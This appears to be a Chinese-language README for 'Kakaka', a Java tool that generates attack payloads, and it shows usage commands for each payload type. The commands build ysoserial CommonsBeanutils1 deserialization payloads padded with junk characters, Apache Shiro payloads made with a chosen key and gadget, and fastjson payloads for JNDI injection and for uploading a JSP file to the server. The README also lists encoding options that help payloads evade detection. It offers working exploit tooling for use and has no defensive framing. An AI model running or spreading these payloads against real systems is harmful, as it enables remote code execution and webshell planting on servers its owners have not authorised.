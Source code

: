 # Kakaka

## 生成各种payload

java -jar Kakaka.jar -yso CommonsBeanutils1 -c whoami -d 2000 -raw 生成一个带2000个脏字符的原始payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204631.png)
 
java -jar Kakaka.jar -shiro -g CommonsBeanutils1 -c whoami -k a3dvbmcAAAAAAAAAAAAAAA== 指定key和gadget生成shiro payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204714.png)

java -jar Kakaka.jar -fastjson upload -lf dogma.jsp -rf /tmp/dogma.jsp 生成fastjson文件上传payload

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204800.png)

java -jar Kakaka.jar -fastjson jndi -u 127.0.0.1 

![](https://ding-images.oss-cn-hangzhou.aliyuncs.com/images/20211122204823.png)

## 支持编码

按照参数顺序编码

支持：
  -ue  url编码
  
  -he  html编码
  
  -be  base64编码
  
  -xe  xml编码
